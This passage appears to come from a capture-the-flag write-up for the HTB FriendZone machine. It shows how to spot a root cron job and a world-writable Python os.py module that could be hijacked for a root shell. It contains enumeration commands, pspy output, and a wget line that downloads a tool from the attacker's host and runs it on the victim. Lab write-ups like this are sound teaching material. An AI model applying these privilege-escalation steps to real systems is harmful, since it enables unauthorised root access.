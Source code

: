 We will get a python script, which declares it may have some scheduled jobs.

Since this script contains os command, so we need to check its privileges.

```bash
ls /usr/lib/python2.7 -al
```

```
-rwxrwxrwx  1 root   root    25910 Jan 15  2019 os.py

```

Note the os.py has root privileges.

So since this python script will run os command as root privilege, we may abuse it to get root shell.

I also ran [pspy](https://github.com/DominicBreuker/pspy), which has been very useful in CTFs/HTB machines, it is a command line tool designed to snoop on processes without need for root permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute.

Transferring the PSPY to the victim machine:

```bash
cd /tmp
wget http://10.10.14.8/pspy64
chmod +x pspy64
./pspy64
```

 noticed that root was running this script every two minutes:

```
2022/10/28 17:39:09 CMD: UID=0    PID=1539   | 
2022/10/28 17:39:09 CMD: UID=0    PID=1540   | 
2022/10/28 17:39:09 CMD: UID=0    PID=1541   | 
2022/10/28 17:39:09 CMD: UID=0    PID=1542   | 
2022/10/28 17:39:09 CMD: UID=0    PID=1545   | 
2022/10/28 17:40:01 CMD: UID=0    PID=1548   | /usr/bin/python /opt/server_admin/reporter.py 
2022/10/28 17:40:01 CMD: UID=0    PID=1547   | /bin/sh -c /opt/server_admin/reporter.py 
2022/10/28 17:40:01 CMD: UID=0    PID=1546   | /usr/sbin/CRON -f 
2022/10/28 17:42:01 CMD: UID=0    PID=1551   | /usr/bin/python /opt/server_admin/reporter.py 
2022/10/28 17:42:01 CMD: UID=0    PID=1550   | /bin/sh -c /opt/server_admin/reporter.py 
2022/10/28 17:42:01 CMD: UID=0    PID=1549   | /usr/sbin/CRON -f 

```

Finally, I noticed that the python module, `os`, was writable:

```bash
cd /usr/lib/python2.7
find -type f -writable -ls
```

```
friend@FriendZone:/tmp$ cd /usr/lib/python2.7 
friend@FriendZone:/usr/lib/python2.7$ find -type f -writable -ls
       98     28 -rw-rw-r--   1 friend   friend      25583 Jan 15  2019 ./os.pyc
    20473     28 -rwxrwxrwx   1 root     root        25910 Jan 15  2019 ./os.py

```
